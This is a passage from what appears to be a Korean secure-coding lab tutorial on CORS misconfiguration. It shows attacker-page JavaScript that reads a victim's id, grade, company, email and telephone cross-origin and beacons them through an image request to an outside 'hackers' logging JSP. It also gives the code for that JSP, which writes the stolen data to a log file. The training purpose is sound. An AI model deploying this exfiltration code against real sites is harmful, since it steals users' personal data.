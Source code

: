    ```html
           
           if (!xhr) {			
               alert('CORS not supported');		
               return;		
           }		
           
           xhr.onload = function() {		
               var s = JSON.parse(xhr.responseText);	
               var output = '<br/>id : ' + s.id +
                   '<br/>grade : ' + s.grade +			
               	'<br/>company : ' + s.company + 
                   '<br/>email : ' + s.email +
                   '<br/>telephone : ' + s.telephone;		
               
               new Image().src = "http://openeq.com:8181/openeg/cors/hackers/logging.jsp?s="+encodeURIComponent(output);	
           };	
           
           xhr.onerror = function() {		
               alert('Woops, there was an error making the request.');	
           };		
           xhr.send();
       }
       
   	makeCorsRequest();
   </script>
   ```

   

3. WebContent>cors>hackers 폴더를 만들어 해커 머신이라고 가정한 뒤 여기에 logging.jsp를 다음과 같이 작성한다.

   ```jsp
   <%@page import="java.util.Date"%><%@page import="java.io.*"%>
   <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
   <%	
   String s = request.getParameter("s");	
   if (s == null) 
       s = "";
      	
   String log = String.format("<br/><div>%s</div>", new Object[] { s });	
   try {		
       String filename= request.getSession().getServletContext().getRealPath("/cors/hackers/log.html");  
       FileWriter fw = new FileWriter(filename);
       
       //the true will append the new data    
       fw.write(log);   
       fw.close();    
   } catch (IOException e) {    
       e.printStackTrace();  
   }	
   
   System.out.println(log);
   %>
   ```
